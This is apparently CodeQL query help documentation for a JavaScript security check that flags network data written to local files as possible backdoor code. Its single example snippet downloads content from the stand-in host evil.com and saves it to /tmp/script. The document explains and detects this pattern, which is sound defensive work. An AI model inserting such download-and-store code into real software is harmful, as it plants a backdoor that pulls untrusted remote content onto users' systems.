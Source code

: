 Network data written to file
============================

::

    ID: js/http-to-file-access
    Kind: path-problem
    Severity: warning
    Precision: medium
    Tags: security external/cwe/cwe-912 external/cwe/cwe-434

`Click to see the query in the CodeQL
repository <https://github.com/github/codeql/tree/main/javascript/ql/src/Security/CWE-912/HttpToFileAccess.ql>`__

Storing user-controlled data on the local file system without further
validation allows arbitrary file upload, and may be an indication of
malicious backdoor code that has been implanted into an otherwise
trusted code base.

Recommendation
--------------

Examine the highlighted code closely to ensure that it is behaving as
intended.

Example
-------

The following example shows backdoor code that downloads data from the
URL ``https://evil.com/script``, and stores it in the local file
``/tmp/script``.

.. code:: javascript

    var https = require("https");
    var fs = require("fs");

    https.get('https://evil.com/script', res => {
      res.on("data", d => {
        fs.writeFileSync("/tmp/script", d)
      })
    });

Other parts of the program might then assume that since ``/tmp/script``
is a local file its contents can be trusted, while in fact they are
obtained from an untrusted remote source.

References
----------

-  OWASP: `Trojan
   Horse <https://www.owasp.org/index.php/Trojan_Horse>`__.
-  OWASP: `Unrestricted File
   Upload <https://www.owasp.org/index.php/Unrestricted_File_Upload>`__.
-  Common Weakness Enumeration:
   `CWE-912 <https://cwe.mitre.org/data/definitions/912.html>`__.
-  Common Weakness Enumeration:
   `CWE-434 <https://cwe.mitre.org/data/definitions/434.html>`__.
